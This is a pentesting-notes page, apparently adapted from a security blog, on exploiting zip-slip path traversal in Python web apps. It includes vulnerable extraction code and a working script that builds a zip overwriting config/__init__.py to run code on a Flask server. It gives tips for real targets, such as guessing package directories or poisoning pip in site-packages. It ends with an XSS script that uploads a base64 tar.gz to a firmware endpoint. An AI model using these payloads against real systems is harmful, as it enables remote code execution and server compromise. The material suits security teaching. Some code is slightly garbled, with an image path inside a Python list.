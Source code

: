 # Exploiting insecure file extraction

### Python

> Compressed file extraction with insecure code vulnerable to path traversal in Python can result in arbitrary code execution by overwriting \_\_init\_\_.py if flask is running in **debug mo**de.

One of the easiest way to achieve [code execution in PHP](https://www.acunetix.com/websitesecurity/upload-forms-threat/) is by exploiting insecurely written file upload handling logic. If you are able to upload arbitrary PHP file by fooling the file upload logic, you can execute arbitrary PHP code. But when it comes to modern web frameworks written in Go, Node.js, Python, Ruby etc. it's a different story. Even if you managed to upload a .py or .js file to the server, requesting these resource via a URL often won't return anything as the route or URL is not exposed by the application. Even if you are able to access the resource by URL, it won't trigger any code execution as it's treated as a static file and just returns plain text source code. This post will explain how to get code execution in one such scenario in Python when you are able to upload compressed files to the server.

Application security rule of thumb is never to trust user input. Don't just limit that concept to RAW HTTP request object that include query params, post body, files, headers etc. Carefully crafted compressed files that looks legit upon extraction can do bad things if it's handled by insecure code. This post is inspired from a [Security Bug](https://github.com/MobSF/Mobile-Security-Framework-MobSF/issues/358) reported to MobSF and tries to cover the technical aspects of the vulnerability and exploitation. Let's take a look into the insecure code.

```

def unzip(zip_file, extraction_path):
    """
    code to unzip files
    """
    print "[INFO] Unzipping"
    try:
        files = [.gitbook/assets/1664530446_507.png]
        with zipfile.ZipFile(zip_file, "r") as z:
            for fileinfo in z.infolist():
                filename = fileinfo.filename
                dat = z.open(filename, "r")
                files.append(filename)
                outfile = os.path.join(extraction_path, filename)
                if not os.path.exists(os.path.dirname(outfile)):
                    try:
                        os.makedirs(os.path.dirname(outfile))
                    except OSError as exc:  # Guard against race condition
                        if exc.errno != errno.EEXIST:
                            print "\n[WARN] OS Error: Race Condition"
                if not outfile.endswith("/"):
                    with io.open(outfile, mode='wb') as f:
                        f.write(dat.read())
                dat.close()
        return files
    except Exception as e:
        print "[ERROR] Unzipping Error" + str(e)
```

This is a fairly simple python code to extract a zip file and return the list of files in the archive. The zip file comeS to the server after a file upload operation and is send to `unzip()` for extraction. If you look at this line

```
outfile = os.path.join(extraction_path, filename)
```

You can see that `filename` variable is controlled by the user. If we set the value of `filename` to  `../../foo.py`

\>>> import os

\>>> extraction\_path = "/home/ajin/webapp/uploads/"

\>>> filename = "../../foo.py"

\>>> outfile = os.path.join(extraction\_path, filename)

\>>> outfile

'/home/ajin/webapp/uploads/../../foo.py'

\>>> open(outfile, "w").write("print 'test'")

\>>> open("/home/ajin/foo.py", "r").read()

"print 'test'"

By abusing path traversal, we are able to write the file to arbitrary location. In this case into `/home/ajin` instead of `/home/ajin/webapp/uploads/`&#x20;

### Arbitrary Code Execution

We are able to write python code to arbitrary location. Now let's see how we can execute it.\
Consider this sample [vulnerable application](https://github.com/ajinabraham/bad\_python\_extract) written in Python Flask. We will make use of `__init__.py` in Python to achieve code execution. The [docs](https://docs.python.org/2.7/tutorial/modules.html#packages) says&#x20;

> The `__init__.py` files are required to make Python treat the directories as containing packages; this is done to prevent directories with a common name, such as `string`, from unintentionally hiding valid modules that occur later on the module search path. In the simplest case, `__init__.py` can just be an empty file, but it can also execute initialization code for the package or set the `__all__` variable, described later.

So if we can overwrite `__init__.py` file with arbitrary Python code inside a directory of the web application that act as a package, then we can achieve code execution if that package is imported by the application. For our code to execute, a server restart is required in most case. But in this example we are running a Flask server with _debug_ set to _True_ which means every time a Python file is changed, the server will do a restart.

### Crafting the Payload

The vulnerable web app has a directory called [config](https://github.com/ajinabraham/bad\_python\_extract/tree/master/config). There is already `__init__.py` and `settings.py` in this directory. The main server file `server.py` imports `settings.py` from `config` directory, which means if we can write code into `config/__init__.py`, we will be able to achieve code execution. We can craft the payload using the following code:

```
import zipfile
z_info = zipfile.ZipInfo(r"../config/__init__.py")
z_file = zipfile.ZipFile("/home/ajin/Desktop/bad.zip", mode="w")
z_file.writestr(z_info, "print 'test'")
z_info.external_attr = 0777 << 16L
z_file.close()
```

If you look into the [file upload code](https://github.com/ajinabraham/bad\_python\_extract/blob/master/server.py#L62-L63), you can see that the file uploads are extracted into `uploads` directory. We can create a malicious filename with [zipfile.ZipInfo()](https://docs.python.org/2/library/zipfile.html#zipfile.ZipInfo). Here we give the filename as `../config/__init__.py` to overwrite `__init__.py` inside `config` directory. `z_info.external_attr = 0777 << 16L` will set the file permission to read and write by everyone. Let's create a zip file and upload it to the vulnerable web app.

![.gitbook/assets/1664530446_507.png](https://ajinabraham.com/static/img/blog/2017\_09\_28\_exploit.png)

We can see that the Flask app reloads and the server console prints **test**. Our code execution is successful.&#x20;

### Exploiting Realworld Applications

In this example, the arbitrary code executed instantly as the Flask server was running on debug mode. This may not be the case elsewhere. You might need to wait until the server is restarted. Another problem is that we don't always know the package directory like `config` in this case. It's easy with an open source project where you have access to the source code. For closed source applications, you can take a good guess for package directories like `conf, config, settings, utils, urls, view, tests, scripts, controllers, modules, models, admin, login` etc. These are some of the common package directories found in some Python web frameworks like Django, Flask, Pyramid, Tornado, CherryPy, web2py etc.

Alternatively, let's say the web application is running inside Ubuntu Linux. The installed and inbuilt Python packages will be available under: `/home/<user>/.local/lib/python2.7/site-packages/pip`. Assuming that the app is running under user directory, you can craft a filename like `../../.local/lib/python2.7/site-packages/pip/__init__.py`. Upon extraction, this creates `__init__.py` file inside `pip` directory. If the app is using virtualenv and let's say the virtualenv directory is `venv`, you can use a filename like `../venv/lib/python2.7/site-packages/pip/__init__.py`. The will brick pip, but next time someone run pip command in the server, your code will execute!&#x20;



### Arbitrary File reading

1. Directory traversal (also known as file path traversal)
2. Un lien symbolique



### XSS

```
<script>
    function base64toBlob(base64Data, contentType) {
      contentType = contentType || "";
      var sliceSize = 1024;
      var byteCharacters = atob(base64Data);
      var bytesLength = byteCharacters.length;
      var slicesCount = Math.ceil(bytesLength / sliceSize);
      var byteArrays = new Array(slicesCount);

      for (
        var sliceIndex = 0;
        sliceIndex < slicesCount;
        ++sliceIndex
      ) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
          bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
      }
      return new Blob(byteArrays, { type: contentType });
    }

    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);

    //File contents encoded to Base64
    var b64file =  "H4sICCzHg2IC/3BvYy50YXIA7c9BCoMwEIXhHCUnSGbiBM8TBIsgrbQp9PhGl9KNlu7+jxneboYXQgzfpizLtvM0lDo97vFVWw5xnMst1E91Z0jT57xnc0wRVaeWTHrrLJuTpKqd8+nau3PerdnT+5/vHMsBAAAAAAAAAAAAAAAAAPBHKwtm0PwAKAAA"

    //Create a Blob object
    var content_type = "application/x-gtar-compressed";
    var blob = base64toBlob(b64file, content_type);

    //Append Blob to FormData
    var formData = new FormData();
    formData.append("file", blob, "file.tar.gz");

    //Send FormData to the server via XMLHttpRequest
    var url = "http://localhost:1337/api/firmware/upload";
    var request = new XMLHttpRequest();
    request.open("POST", url);
    request.send(formData);
  </script>
  
  // cat tar.gzip | base64 - w0
```



